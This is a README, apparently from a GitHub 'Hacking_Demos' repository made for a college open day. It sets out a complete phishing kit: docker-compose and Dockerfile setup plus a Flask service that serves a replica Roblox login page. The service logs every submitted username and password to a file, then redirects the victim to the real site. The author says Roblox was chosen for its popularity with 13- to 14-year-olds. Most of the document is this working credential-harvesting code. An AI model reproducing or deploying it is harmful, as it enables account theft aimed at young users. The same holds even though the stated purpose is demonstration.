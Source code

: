 # Hacking_Demos

> [!NOTE]
> This repository contains hacking/exploit examples like phishing to act as showcase for open door day in my college. <br/>

> [!NOTE]
> **Phishing** <br/>
> In the phishing example, I opted to utilize the online gaming platform 'Roblox' due to its popularity among the 13- to 14-year-old age demographic, making it a fitting choice.

## Phishing

To set this all up I created a small containerized application using `docker-compose`. <br/>
```yml
version: '3.9'

services:
  web:
    build: .
    restart: always
    ports:
      - "80:5000"
    volumes:
      - ./output:/output
```

In this `docker-compose.yml` file I mapped the Flask service running on Port `5000` to the exposed Port `80`. <br/>
I added a volume for the purpose of storing credentials during the demonstration, the output directory contains the credentials of victims. <br/>

The Dockerfile sets up the latest python environment and starts the `service.py` script. <br/>
```docker
FROM python:latest

WORKDIR /app

COPY . /app

RUN pip install --no-cache-dir -r requirements.txt

EXPOSE 5000

CMD ["python3", "service.py"]
```

The `service.py` script just launches a normal `Flask` service which provides the landing page and a redirect after successfully obtaining a victims credentials. <br/>
```py
from flask import *

app = Flask(__name__)

# API Endpoint for Index-Page
@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('roblox.html')
    if request.method == 'POST':
        return render_template('roblox.html')

# API Endpoint for styling files
@app.route('/roblox_files/<path:filename>')
def serve_roblox_file(filename):
    return send_from_directory('/app/roblox_files/', filename)

# API Endpoint to store creds and redirect user
@app.route('/api/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    with open('/output/output.txt', 'a') as file:
        file.write(f'------------------------------------\n\nUsername: {username}\nPassword: {password}\n\n')

    return redirect('https://www.roblox.com/login')

if __name__ == '__main__':
    app.run(host="0.0.0.0")
```

I will not comment on the `html` and `css` files from roblox as they are just a simple replica of `roblox.com` and I have no rights whatsoever to reuse the actual source. (Please don't sue me.)
